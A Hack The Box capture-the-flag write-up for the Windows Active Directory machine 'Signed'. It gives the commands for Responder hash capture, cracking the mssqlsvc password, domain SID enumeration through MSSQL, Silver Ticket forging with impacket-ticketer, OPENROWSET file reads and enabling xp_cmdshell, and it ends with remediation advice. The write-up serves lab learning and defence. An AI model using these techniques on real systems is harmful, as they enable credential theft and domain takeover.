# Signed — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Key techniques** | NTLM hash coercion (Responder), domain enumeration through MSSQL (`SUSER_SID`), Kerberos Silver Ticket forging, MSSQL `OPENROWSET(BULK)` file read |

---

## TL;DR

Signed exposes a single port — **MSSQL (1433)**. I recover the `mssqlsvc`
service account's credentials by coercing an NTLMv2 authentication to
Responder and cracking the hash. `mssqlsvc` is **not** a sysadmin, and with
no LDAP/SMB the domain has to be enumerated *through SQL* (`SUSER_SID` to
recover the domain SID). Because I control the service account's password,
I forge a **Kerberos Silver Ticket** for the `MSSQLSvc` SPN that places me
in **Domain Admins** — MSSQL trusts the ticket because it's signed with the
service account's own key, so I authenticate as **sysadmin** and read the
flags, using `OPENROWSET(BULK)` for arbitrary file read.

> Silver Ticket forging and MSSQL `OPENROWSET` file read were both new
> techniques for me here — learnt from HackTricks rather than a walkthrough.

---

## Recon

```bash
sudo nmap -sCV 10.129.242.173
```



**Only 1433 (MSSQL) is open**, so MSSQL is both the only way in and the
only window into the domain.

---

## Foothold — recover mssqlsvc creds (Responder)

Coerced an NTLMv2 authentication from the SQL service account to a
Responder listener and captured the hash:

```bash
sudo responder -I tun0 -A
```




Cracked it with hashcat → `mssqlsvc : purPLE9795!@`:



Logged into MSSQL with Windows auth:

```bash
impacket-mssqlclient mssqlsvc:'purPLE9795!@'@10.129.242.173 -windows-auth
```



But `mssqlsvc` is **not** a sysadmin:

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');   -- 0
```



---

## Domain enumeration through MSSQL

With no LDAP/SMB, the domain has to be enumerated via SQL. Recover the
**domain SID** from a known account:

```sql
SELECT SUSER_SID('SIGNED\Domain Users');
```




Decoding the binary SID gives the domain SID (the last 4 bytes are the
RID). `enum_logins` lists the SQL logins:



---

## Privilege Escalation — Silver Ticket → sysadmin

I control the MSSQL service account's password, so I can forge a **Silver
Ticket** for its SPN. A silver ticket is signed offline with the service
account's own NT hash, targets one service, and lets me put myself in any
groups in the PAC — including **Domain Admins (512)** — which MSSQL trusts
blindly.

Converted the password to its NT hash:



Forged the ticket with `impacket-ticketer` (groups `512` = Domain Admins):

```bash
impacket-ticketer \
  -nthash <nt-hash> \
  -domain-sid <domain-sid> \
  -domain SIGNED.HTB \
  -spn MSSQLSvc/DC01.SIGNED.HTB \
  -groups 512,1105,513 -user-id 1103 mssqlsvc
```





Used the ticket (Kerberos auth) — this time I'm **sysadmin**:

```bash
export KRB5CCNAME=mssqlsvc.ccache
impacket-mssqlclient -k DC01.SIGNED.HTB
SELECT IS_SRVROLEMEMBER('sysadmin');   -- 1
```





---

## Flags

User flag:



As sysadmin, `OPENROWSET(BULK)` reads any file on the system — used it for
the root flag:

```sql
SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB) AS Contents;
```




*(sysadmin also allows `EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;` for
full command execution on the DC.)*

---

## Lessons Learned

- One open port (1433) doesn't mean a dead end — MSSQL is both foothold and
  enumeration window. `SUSER_SID`/`SUSER_SNAME` enumerate the domain when
  there's no LDAP/SMB.
- Owning a service account's password/hash lets you forge a **Silver
  Ticket** for its SPN and put yourself in Domain Admins; the service
  trusts the PAC because it's signed with its own key.
- A silver ticket is offline, single-service, and needs no DC contact —
  just the service NT hash, domain SID and SPN.
- sysadmin on MSSQL is file read (`OPENROWSET BULK`) and RCE
  (`xp_cmdshell`).

---

## Remediation

- Use strong, unique passwords for service accounts so their NTLM hashes
  can't be coerced-and-cracked.
- Enable SMB signing / mitigate NTLM relay and coercion.
- Consider Managed Service Accounts (gMSA) so service key material isn't a
  static, forge-able secret.
- Restrict MSSQL service accounts to least privilege.

---

## Tools used

- `nmap`
- `responder`, `hashcat`
- Impacket (`mssqlclient.py`, `ticketer.py`)

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Signed](https://www.hackthebox.com/machines/signed)

---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/signed/)
